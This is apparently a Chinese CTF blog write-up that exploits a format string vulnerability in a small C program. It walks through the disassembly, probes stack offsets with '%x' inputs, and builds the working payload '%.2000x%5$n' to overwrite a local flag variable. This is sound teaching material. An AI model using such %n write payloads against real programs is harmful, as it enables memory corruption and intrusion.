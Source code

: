```yaml
---
title: 某道Pwn（格式化字符串漏洞）
id: csdn63253665
---
```


格式化字符串漏洞近几年出现频率少了，但是一些 CTF 中还有涉及，就当玩玩好了。

首先看这一段代码，什么比赛的题我忘了：

```
#include <stdio.h>
int main(void)
{ 
    int flag = 0;
    int *p = &flag; 
    char a[100];
    scanf("%s",a);
    printf(a);
    if(flag == 2000)
    {
        printf("good!!\n");
    }

    return 0;
}
```

目标是拿到Flag。我们使用GCC编译之后用ObjDump反编译：

```
 8048507:   c7 45 88 00 00 00 00    movl   $0x0,-0x78(%ebp) ;flag
 804850e:   8d 45 88                lea    -0x78(%ebp),%eax
 8048511:   89 45 8c                mov    %eax,-0x74(%ebp) ;p
 8048514:   83 ec 08                sub    $0x8,%esp
 8048517:   8d 45 90                lea    -0x70(%ebp),%eax ;a
 804851a:   50                      push   %eax
 804851b:   68 f0 85 04 08          push   $0x80485f0
 8048520:   e8 bb fe ff ff          call   80483e0 <__isoc99_scanf@plt>
 8048525:   83 c4 10                add    $0x10,%esp
```

我们可以看到`p`在`flag`下面四个偏移，`a`又在`p`下面四个偏移，用缓冲区溢出是不可能了。下面有个`printf`，也许可以利用字符串格式化漏洞。

继续往下看汇编：

```
 8048528:   83 ec 0c                sub    $0xc,%esp
 804852b:   8d 45 90                lea    -0x70(%ebp),%eax
 804852e:   50                      push   %eax
 804852f:   e8 5c fe ff ff          call   8048390 <printf@plt>
 8048534:   83 c4 10                add    $0x10,%esp
```

我们可以看到`printf`总共接受了 4 个参数，实际上只有一个有效参数。

我们可以使用`AAAA%x`来寻找`a`的偏移：

```
wizard@ubuntu:~/Desktop$ ./t2
AAAA%x
AAAAffee9b78wizard@ubuntu:~/Desktop$ ./t2
AAAA%2$x
AAAAf767e329wizard@ubuntu:~/Desktop$ ./t2
AAAA%4$x
AAAA0wizard@ubuntu:~/Desktop$ ./t2
AAAA%5$x
AAAAfff44cd0wizard@ubuntu:~/Desktop$ AAAA%6$x
AAAA41414141 
```

我们看到了一个 0 ，又看到了一个很像地址的东西。然后就是我们输入的`AAAA`。我们于是可以断定，第四个`%x`是`flag`，第五个`%x`是`p`，第六个`%x`是`a`的起始位置。

再试一下，发现栈基址是变化的：

```
wizard@ubuntu:~/Desktop$ ./t2
AAAA%5$x
AAAAffad7a70
```

也就是说，我们不能把`f`的地址写进`a`的前四个字节，但是我们可以利用`p`。构造字符串`"%.2000%x%5$n"`：

```
ffe43b880wizard@ubuntu:~/Desktop$ ./t2
%.2000x%5$n
...
0000000000000000000000000000000000000ffce9f98good!!
```

成功。